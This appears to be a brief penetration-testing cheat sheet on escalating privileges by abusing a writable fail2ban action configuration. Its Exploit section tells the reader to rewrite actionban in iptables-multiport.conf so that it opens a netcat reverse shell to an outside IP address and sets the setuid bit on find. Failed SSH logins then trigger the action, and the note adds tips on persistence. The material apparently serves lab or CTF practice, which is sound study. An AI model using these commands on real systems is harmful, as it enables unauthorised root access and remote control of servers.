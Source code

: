# fail2ban

Fail2Ban is an IPS framework that protects computer servers from brute-force attacks.

## Interesting Paths

```
# log file path
- /var/log/fail2ban.log
```

## Privilege Escalation Requirement

```
# should be writable
/etc/fail2ban/action.d/*
```

## Exploit

[https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/)

```
# check if writable
$ ls -la iptables-multiport.conf

# this file has 2 actions: actionban & actionunban
# update actionban = <sticky-bandit>
actionban = /usr/bin/nc -e /bin/bash 192.168.49.122 9000
            chmod +s /usr/bin/find

# force ssh in as user and actionban will execute
# default actionban is for 1 minute; so rev-shell will die in 1 min; try for persistence
```
